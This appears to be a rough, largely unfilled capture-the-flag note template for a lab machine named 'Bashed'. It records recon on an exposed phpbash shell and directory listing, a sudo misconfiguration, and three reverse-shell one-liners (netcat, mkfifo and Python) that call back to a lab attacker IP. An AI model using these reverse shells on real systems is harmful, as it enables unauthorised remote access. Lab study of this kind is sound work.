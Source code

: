 # <span style="color:[COLOR]">Machine #30 Bashed</span>  



## <span style="color:[COLOR]">Checklist 🤓   



<br/><br/>


## <span style="color:[COLOR]">What Do We Have? 🤔🤔 
* Some script called `phpbash` that seems to be running on the server.  
* I tried to visit `http://[IP]/uploads` and it worked. It exists.
* I also tried to send a post request to the uploads with the parameter `cmd`, the command `whoami` didn't work, gave me an error `412 Precondition Failed` but when I tried `pwd` or `cat /etc/passwd` it worked but it didn't return an output. Anyway, it doesn't have to return an output.  
* I also have the source code of the phpbash thing which gives me an upper hand.  
* There's a directory called `/php` it seems according to the contact form I found this `/php/sendMail.php`. 
* I was able to open `/php` and it did not include anything but `sendMail.php` but if I was able to open it doesn't that mean that I have Directory Traversal vulnerability. 
* I think I do have directory traversal.
* Found a `/dev` directory through gobuster and since I have directory traversal I was able to view the directory and find that `phpbash.php` is stored there.

nc -e /bin/sh 10.10.14.72 1234

<br/><br/>


## <span style="color:[COLOR]">Random Notes👀

<br/><br/>  


## <span style="color:[COLOR]">How Did I Own This Shit 😎🥳  

<br/><br/>



## <span style="color:[COLOR]">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:[COLOR]">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:[COLOR]">Writeups ✍🏽📓   


<br/><br/>

<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->  
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.72 1234 >/tmp/f  


User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL


import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.72",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
